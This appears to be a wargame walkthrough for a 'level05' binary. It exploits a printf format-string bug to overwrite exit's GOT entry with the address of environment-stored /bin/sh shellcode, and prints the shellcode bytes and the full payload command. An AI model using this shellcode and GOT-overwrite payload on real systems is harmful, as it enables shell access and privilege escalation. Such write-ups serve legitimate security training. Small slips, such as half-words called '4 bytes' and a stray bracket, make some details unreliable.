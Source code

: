 # Level05

![](Ressources/img/level05_launch.png)

The program takes out input and transfer it to lowercase. Let's use [gdb and radare](Ressources/gdb.md) to understand what's going on.

Unfortunately, we see the stack is non-executable. We can overflow the buffer, but we can't overwrite the `EIP` with an address (like `system("/bin/sh")`) in the stack because it won't execute.

![](Ressources/img/nx_disable.png)

But we can:

- use a shellcode stored in an environmental variable 
- run a string format attack to overwrite `exit`

Let's find the address of `exit`():

![](Ressources/img/exit_addr.png)

The GOT address of `exit` is `0x080497e0`

Let's check our buffer position for the `printf` string format exploit, launching:

`python -c 'print "AAAA"+" %p"*12' | ./level05`

![](Ressources/img/format_pos.png)

We can see our buffer `aaaa` in the 10th position on the stack as `61616161`

Finally, we should inject shellcode

    export SHELLCODE=`python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`

Using a lot of `NOP` instructions before the Shellcode helps us to consistently find it even if the environment address shifts
a bit as `NOP` instruction will only indicate to go to the next one until we find the first "real" instruction.

Then, we'll need to find where this environment variable is stored in memory. For that we can use:

    #include <cstdio>
    #include <cstdlib>
    
    int main(int ac, char** av)
    {
        printf("env address at %p\n", getenv(av[1]));
        return (0);
    }

Compile this program like this: `gcc -m32`

![](Ressources/img/shell_addr.png)

Address is `0xffffd851` in my case. It may be a different!

Unfortunately, `0xffffd851` is too large to pass to `printf` in decimal with a `%d` format (it overflows maxint). 
We can, however, pass it in decimal as 2 short ints (written on 2 bytes each).

Format string attack:

- `exit` GOT address, split into two [4 bytes] parts 
- shellcode address in decimal, split into two [4 bytes] parts 
  - 55377 - 8 bytes (of characters already written) = 55369
  - 65535 - 55377 bytes (of characters already written) = 10158
- `printf` formatting arguments:
  - %10$hn for 10th argument, half word/short int [2 bytes]
  - %11$hn for 11th argument, half word/short int [2 bytes]

        (python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55369d%10$hn" + "%10158d%11$hn")'; cat) | ./level05]

![](Ressources/img/launch_str.png)
![](Ressources/img/level06.png)
